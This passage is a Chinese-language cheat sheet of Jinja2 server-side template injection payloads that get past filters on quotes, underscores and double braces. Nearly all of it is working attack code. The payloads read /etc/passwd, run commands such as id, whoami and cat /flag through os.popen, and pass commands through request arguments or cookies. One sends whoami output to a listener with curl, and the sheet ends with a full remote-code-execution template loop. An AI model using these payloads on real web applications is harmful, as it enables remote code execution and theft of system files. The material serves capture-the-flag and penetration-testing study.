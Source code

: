 - 过滤引号:

```
#chr函数
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}

# 这里%2b是加号, 下面的字符连起来是/etc/passwd,也就是读取/etc/passwd  这里根据自己需要执行的命令来替换
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd

#命令执行
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}

# 这里字符连起来是id,也就是要执行的命令, 根据自己的需要来替换
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}

#引入其他参数来执行命令
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id

```

- 过滤下划线:

```
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

- 过滤双花括号:

```
# 用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}

{%print(x|attr(request.cookies.init)|attr(request.cookies.globals)|attr(request.cookie.getitem)|attr(request.cookies.builtins)|attr(request.cookies.getitem)(request.cookies.eval)(request.cookies.command))%}
#cookie: init=__init__;globals=__globals__;getitem=__getitem__;builtins=__builtins__;eval=eval;command=__import__("os").popen("cat /flag").read()
```

利用示例:

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
